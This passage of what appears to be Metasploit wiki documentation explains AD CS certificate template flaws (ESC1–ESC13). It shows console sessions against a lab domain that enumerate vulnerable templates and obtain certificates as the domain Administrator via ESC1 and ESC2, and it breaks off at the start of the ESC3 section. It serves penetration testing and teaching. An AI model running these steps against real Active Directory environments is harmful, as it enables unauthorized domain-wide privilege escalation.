


# Setting Up An AD CS Target
Follow the instructions [[here|./ad-certificates/overview.md]] to set up an AD CS server
for testing purposes.

# Introduction to AD CS Vulnerabilities


The chart above showcases how one can go about attacking five unique AD CS
vulnerabilities, taking advantage of various flaws in how certificate templates are
configured on an Active Directory Certificate Server.

The following sections will walk through each of these steps, starting with enumerating
certificate templates that the server has to offer and identifying those that are
vulnerable to various misconfigurations and security flaws, followed by creating new
certificates using these certificate templates with the `icpr_cert` Metasploit module,
and finally using these certificates to authenticate to the domain as the domain
administrator via Kerberos.

Each certificate template vulnerability that will be discussed here has a ESC code, such
as ESC1, ESC2. These ESC codes are taken from the original whitepaper that
SpecterOps published which popularized these certificate template attacks, known as
[Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf).
In this paper Will Schroeder and Lee Christensen described 8 different domain escalation
attacks that they found they could conduct via misconfigured certificate templates:

- ESC1 - Domain escalation via No Issuance Requirements + Enrollable Client Authentication/Smart Card Logon OID templates +
  CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT
  - [[Exploit Steps|attacking-ad-cs-esc-vulnerabilities.md#using-the-esc1-vulnerability-to-get-a-certificate-as-the-domain-administrator]]
- ESC2 - Domain escalation via No Issuance Requirements + Enrollable Any Purpose
  EKU or no EKU
  - [[Exploit Steps|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc2-to-gain-domain-administrator-privileges]]
- ESC3 - Domain escalation via No Issuance Requirements + Certificate Request
  Agent EKU + no enrollment agent restrictions
  - [[Exploit Steps|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc3-to-gain-domain-administrator-privileges]]
- ESC4 - Domain escalation via misconfigured certificate template access control
  - [[Exploit Steps|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc4-to-gain-domain-administrator-privileges]]
- ESC5 - Domain escalation via vulnerable PKI AD Object Access Control
- ESC6 - Domain escalation via the EDITF_ATTRIBUTESUBJECTALTNAME2 setting on CAs + No
  Manager Approval + Enrollable Client Authentication/Smart Card Logon OID templates
- ESC7 - Vulnerable Certificate Authority Access Control
- ESC8 - NTLM Relay to AD CS HTTP Endpoints

Later, additional techniques were disclosed by security researchers:

- ESC9 - No Security Extension - CT_FLAG_NO_SECURITY_EXTENSION flag set in `msPKI-EnrollmentFlag`. Also
  `StrongCertificateBindingEnforcement` not set to 2 or `CertificateMappingMethods` contains `UPN` flag.
  - [Certipy 4.0: ESC9 & ESC10, BloodHound GUI, New Authentication and Request Methods — and
    more!](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- ESC10 - Weak Certificate Mappings - `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SecurityProviders\Schannel
  CertificateMappingMethods` contains `UPN` bit aka `0x4` or `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Kdc
  StrongCertificateBindingEnforcement` is set to `0`.
  - [Certipy 4.0: ESC9 & ESC10, BloodHound GUI, New Authentication and Request Methods — and
    more!](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
- ESC11 - Relaying NTLM to ICPR - Relaying NTLM authentication to unprotected RPC interface is allowed due to lack of
  the `IF_ENFORCEENCRYPTICERTREQUEST` flag on `Config.CA.Interface.Flags`.
  - [Relaying to AD Certificate Services over
    RPC](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/)
- ESC12 - A user with shell access to a CA server using a YubiHSM2 hardware security module can access the CA's private
  key.
  - [Shell access to ADCS CA with YubiHSM](https://pkiblog.knobloch.info/esc12-shell-access-to-adcs-ca-with-yubihsm)
- ESC13 - Domain escalation via issuance policies with group links.
  - [ADCS ESC13 Abuse Technique](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)
  - [[Exploit Steps|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc13]]

Currently, Metasploit only supports attacking ESC1, ESC2, ESC3, ESC4 and ESC13. As such,
this page only covers exploiting ESC1 through ESC4 and ESC13 at this time.

Before continuing, it should be noted that ESC1 is slightly different than ESC2 and ESC3
as the diagram notes above. This is because in ESC1, one has control over the
`subjectAltName` field in the generated certificate, which is also known as the `SAN`
field. This field allows one to specify who the certificate should authenticate as.
Therefore, all an attacker needs to do is simply modify this field and they can gain a
certificate that allows them to authenticate as any user they wish.

ESC2 is similar to ESC1 in all respects, however it differs in one key area. This is
because, unlike ESC1 vulnerable certificate templates, you cannot edit the
`subjectAltName` field, of ESC2 vulnerable certificate templates. Additionally, ESC2
certificate templates define the `Any Purpose` extended key usage (EKU) or no EKU at all.
This last part is important as it allows an attacker to utilize the ESC2 vulnerable
certificate template to create a new certificate that can be used to authorize to log into
a domain via Kerberos on behalf of any other user, thereby granting them access to the
domain as that user. Note that certificates with no EKU at all will need to be trusted
by the `NTAuthCertificates` object (which it won't be by default), otherwise new
certificates that are created using the vulnerable ESC2 certificate template
will not work for domain authentication. This restriction does not apply for those
certificates vulnerable to ESC2 which have the `Any Purpose` EKU applied to them.

Next, ESC3 is fairly similar to ESC2, however it differs in two ways: a different EKU
is abused, and the attacker also needs to utilize two different misconfigured certificate
templates in order to exploit the vulnerability. The EKU in question this time is the
Certificate Request Agent EKU, aka OID 1.3.6.1.4.1.311.20.2.1, which allows one to enroll
for a certificate on behalf of another user, which may seem unusual, but this a common
scenario within Microsoft environments. To abuse this EKU, an attacker must have the
following two vulnerable certificate templates:

1. A certificate template which has all the same permissions as ESC1, however it also has
   the Certificate Request Agent EKU set on it, aka OID 1.3.6.1.4.1.311.20.2.1. This
   certificate template is labeled as `ESC3_TEMPLATE_1` within the output of the
   `ldap_esc_vulnerable_cert_finder` module we will use later on.
2. A certificate template that allows low privileged users to enroll in it, and has
   manager approval disabled, same as ESC1. However it also has either:
   - A template schema of 1
   - A template schema of 2 or greater and an Application Policy Issuance Requirement
     requiring the Certificate Request Agent EKU so that only those who have a certificate
     with this requirement can enroll in them.
   It must also define an EKU that allows for domain authentication, same as ESC1, and
   there must be no enrollment restrictions on the Certificate Authority (CA) server in
   question. This certificate template is labeled as `ESC3_TEMPLATE_2` within the
   output of the `ldap_esc_vulnerable_cert_finder` module we will use later on.

If both of these criteria are met then the attacker can enroll in one of the
`ESC3_TEMPLATE_1` vulnerable certificate templates as a low privileged user in order to
get a certificate that will grant them Certificate Request Agent permissions. They can
then use these permissions to enroll in a `ESC3_TEMPLATE_2` vulnerable certificate
template and request a certificate on behalf of another user, such as the domain
administrator, and utilize the fact that the certificate template allows for domain
authentication to log into the domain via Kerberos as that user.

## Finding Vulnerable ESC Templates Using ldap_esc_vulnerable_cert_finder
Before one can exploit vulnerable ESC templates to elevate privileges, it is necessary to first find a list of vulnerable templates that exist on a domain.
To do this we can run the `auxiliary/gather/ldap_esc_vulnerable_cert_finder` module. This module will connect to the LDAP server on a target
Domain Controller (DC), and will run a set of LDAP queries to gather a list of certificate authority (CA) servers and the vulnerable certificate
templates they make available for enrollment. It will then also query the permissions on both the CA and the certificate template to figure out
which users or groups can use that certificate template to elevate their privileges.

Currently the module is capable of checking for certificates that are vulnerable to ESC1, ESC2, ESC3, and ESC13. The
module is limited to checking for these techniques due to them being identifiable remotely from a normal user account by
analyzing the objects in LDAP.

Keep in mind though that there are two sets of permissions in play here though. There is one set of permissions on the CA server that control
who is able to enroll in any certificate template from that server, and second set of permissions that control who is allowed to enroll in
a specific certificate template, which is applied to the certificate template itself. Therefore, the module will also specify which users are
allowed to enroll in a specific template on a specific CA server, in order to make it as clear as possible which users or groups one needs
to have access to in order to exploit the vulnerable certificate template.

The following diagram showcases how this permissions check works in a more visual manner:



To run the module, you will need to have the login credentials of a domain joined user. The specific permissions of this user should not matter though,
since most LDAP servers in an Active Directory (AD) environment are configured in such a way that they allow users to read most objects, but not write to them.
For our purposes, since we just need to read the details of the certificate templates that are available, this means normal user permissions should be sufficient.

To run the module, specify the login credentials for an AD user, and set `RHOSTS` to the address of one of the Domain Controller (DC) IP addresses, then enter `run`.
This will cause the module to log into the LDAP server on the target DC, and list out the vulnerable certificate templates and which CA servers they are available from,
as well as the permissions that are required to enroll in these certificate templates. The following is a sample output of running this against a test server:

```msf
msf6 > use auxiliary/gather/ldap_esc_vulnerable_cert_finder
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > show options

Module options (auxiliary/gather/ldap_esc_vulnerable_cert_finder):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   BASE_DN                                 no        LDAP base DN if you already have it
   DOMAIN                                  no        The domain to authenticate to
   PASSWORD                                no        The password to authenticate with
   REPORT_NONENROLLABLE   false            yes       Report nonenrollable certificate templates
   REPORT_PRIVENROLLABLE  false            yes       Report certificate templates restricted to domain
                                                      and enterprise admin
   RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit
                                                     -framework/wiki/Using-Metasploit
   RPORT                  389              yes       The target port
   SSL                    false            no        Enable SSL on the LDAP connection
   USERNAME                                no        The username to authenticate with


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set DOMAIN DAFOREST
DOMAIN => DAFOREST
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set USERNAME normaluser
USERNAME => normaluser
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set PASSWORD normalpass
PASSWORD => normalpass
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) > run
[*] Running module against 172.30.239.85

[*] Discovering base DN automatically
[+] 172.30.239.85:389 Discovered base DN: DC=daforest,DC=com
[+] Template: ESC1-Template
[*]   Distinguished Name: CN=ESC1-Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC1
[*]   Notes: ESC1: Request can specify a subjectAltName (msPKI-Certificate-Name-Flag)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC2-Template
[*]   Distinguished Name: CN=ESC2-Template,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC2
[*]   Notes: ESC2: Template defines the Any Purpose OID or no EKUs (PkiExtendedKeyUsage)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC3-Template1
[*]   Distinguished Name: CN=ESC3-Template1,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_1
[*]   Notes: ESC3: Template defines the Certificate Request Agent OID (PkiExtendedKeyUsage)
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: User
[*]   Distinguished Name: CN=User,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: Machine
[*]   Distinguished Name: CN=Machine,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-515 (Domain Computers)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[+] Template: ESC3-Template2
[*]   Distinguished Name: CN=ESC3-Template2,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=daforest,DC=com
[*]   Manager Approval: Disabled
[*]   Required Signatures: 0
[+]   Vulnerable to: ESC3_TEMPLATE_2
[*]   Certificate Template Enrollment SIDs:
[*]     * S-1-5-21-3290009963-1772292745-3260174523-512 (Domain Admins)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-513 (Domain Users)
[*]     * S-1-5-21-3290009963-1772292745-3260174523-519 (Enterprise Admins)
[+]   Issuing CA: daforest-WIN-BR0CCBA815B-CA (WIN-BR0CCBA815B.daforest.com)
[*]     Enrollment SIDs:
[*]       * S-1-5-11 (Authenticated Users)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_esc_vulnerable_cert_finder) >
```

From the output above we can determine that the SubCA certificate template is vulnerable to several attacks. However,
whilst the issuing CAs allow any authenticated user to enroll in this certificate, the certificate template permissions
prevent anyone but Domain Administrators and Enterprise Admins from being able to enroll in this certificate template.
At that point you probably don't need to elevate your privileges any higher, so this certificate template isn't that
useful for us.

Moving onto the next certificate template we see that ESC1-Template is vulnerable to the ESC1 attack, has permissions on
the template itself that allow for enrollment by any authenticated domain user, and has one issuing CA, daforest-WIN-
BR0CCBA815B-CA, available at WIN-BR0CCBA815B.daforest.com, which allows enrollment by any authenticated user. This means
that any user who is authenticated to the domain can utilize this template with a ESC1 attack to elevate their
privileges.

Looking at ESC2-Template we can see the same story however this time the template is vulnerable to an ESC2 attack.
ESC3-Template1 is also the same but is vulnerable to ESC3_TEMPLATE_1 attacks, and ESC3-Template2 is the same but
vulnerable to ESC3_TEMPLATE_2 attacks.

We also see that the User template is vulnerable to ESC3_TEMPLATE_2 attacks and the fact that it is enrollable from
Domain Users and that daforest-WIN-BR0CCBA815B-CA allows enrollment in it by any authenticated user confirms the theory
that this can be exploited by any authenticated attacker for an ESC3_TEMPLATE_2 attack.

Another interesting one to note is the Machine template, which allows any domain joined computer to enroll in it, and
who's issuing CA allows any authenticated user to request it.

With this we now have a list of certificates that can be utilized for privilege escalation. The next step is to use the
`ipcr_cert` module to request certificates for authentication using the vulnerable certificate templates.

# Using the ESC1 Vulnerability To Get a Certificate as the Domain Administrator
Getting a certificate as the current user is great, but what we really want to do is elevate privileges if we can.
Luckily we can also do this with the `icpr_cert` module. We just need to also set the `ALT_SID` and `ALT_UPN` options to
specify who we would like to authenticate as instead. Note that this only works with certificate templates that are
vulnerable to ESC1 due to having the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag set.

If we know the domain name is `daforest.com` and the domain administrator of this domain is named `Administrator` we can
quickly set this up:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC1-Template
CERT_TEMPLATE => ESC1-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_SID S-1-5-21-3402587289-1488798532-3618296993-1000
ALT_SID => S-1-5-21-3402587289-1488798532-3618296993-1000
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1000
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC2 To Gain Domain Administrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.

We will use ESC2-Template to gain a TGT as the domain administrator user.

To do this we will use the `ipcr_cert` module and we will set the usual options, however we will need to run it twice. This is because with ESC2, we can't use the vulnerability to request authentication certificates as other users without the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag being set on the template. Instead what we can do is use the Any Purpose EKU or SubCA EKU that are set on these certificates to authenticate to the domain as the user who requested the certificate. So what we do is first get a ESC2 vulnerable certificate, then abuse the ability to use that certificate for any purpose to then request a certificate on behalf of another user, using that certificate as the form of authentication for this operation.

For the first run, we will set the usual `RHOSTS`, `CA`, and `CERT_TEMPLATE` details, being sure to set `CERT_TEMPLATE` to the vulnerable `ESC2-Template` certificate template, and supply valid SMB login credentials. This will grant us a certificate for our current user that is based off of the vulnerable `ESC2-Template`:

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC2-Template
CERT_TEMPLATE => ESC2-Template
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next, we need to use the PFX file that we got to request another certificate to authenticate on behalf of another user. We will use the `PFX` option to specify the PFX file, and the `ON_BEHALF_OF` setting to specify the user we would like to authenticate on behalf of. Finally we will change the certificate template to another certificate template that we are able to enroll in. The default `User` certificate should work here since it allows enrollment by any authenticated domain user.

```msf
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting              Required  Description
   ----           ---------------              --------  -----------
   ALT_DNS                                     no        Alternative certificate DNS
   ALT_UPN                                     no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA  yes       The target certificate authority
   CERT_TEMPLATE  ESC2-Template                yes       The certificate template
   ON_BEHALF_OF                                no        Username to request on behalf of (format: DOMAIN\USER)
   PFX                                         no        Certificate to request on behalf of
   RHOSTS         172.30.239.85                yes       The target host(s), see https://github.com/rapid7/metas
                                                         ploit-framework/wiki/Using-Metasploit
   RPORT          445                          yes       The target port (TCP)
   SMBDomain      DAFOREST                     no        The Windows domain to use for authentication
   SMBPass        normalpass                   no        The password for the specified username
   SMBUser        normaluser                   no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
PFX => /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE User
CERT_TEMPLATE => User
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  User                            yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
                                                            R)
   PFX            /home/gwillcox/.msf4/loot/2022  no        Certificate to request on behalf of
                  1216154930_default_unknown_win
                  dows.ad.cs_104207.pfx
   RHOSTS         172.30.239.85                   yes       The target host(s), see https://github.com/rapid7/me
                                                            tasploit-framework/wiki/Using-Metasploit
   RPORT          445                             yes       The target port (TCP)
   SMBDomain      DAFOREST                        no        The Windows domain to use for authentication
   SMBPass        normalpass                      no        The password for the specified username
   SMBUser        normaluser                      no        The username to authenticate as


Auxiliary action:

   Name          Description
   ----          -----------
   REQUEST_CERT  Request a certificate


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-500
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216154930_default_unknown_windows.ad.cs_104207.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216155701_default_unknown_windows.ad.cs_756798.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC3 To Gain Domain Administrator Privileges
To exploit ESC3 vulnerable templates we will use a similar process to
[[ESC2|attacking-ad-cs-esc-vulnerabilities.md#exploiting-esc2-to-gain-domain-administrator-privileges]] templates but
with slightly different steps. First, let's return to the earlier output where we can find several templates that are
vulnerable to ESC3 attacks. However we need to split them by attack vector. The reason is that the first half of this
attack needs to use the ESC3_TEMPLATE_1 vulnerable certificate templates to enroll in a certificate template that has
the Certificate Request Agent OID (1.3.6.1.4.1.311.20.2.1) that allows one to request certificates on behalf of other
principals (such as users or computers).

The second part of this attack will then require that we co-sign requests for another certificate using the certificate
that we just got, to then request a certificate that can authenticate to the domain on behalf of another user. To do
this we will need to look for certificates in the `ldap_esc_vulnerable_cert_finder` module which are labeled as being
vulnerable to the ESC3_TEMPLATE_2 attack.

The list of ESC3_TEMPLATE_1 vulnerable templates is pretty short and consists of a single template:
- ESC3-TEMPLATE-1 - Vulnerable to ESC3_TEMPLATE_1 and allows enrollment via any authenticated domain user.

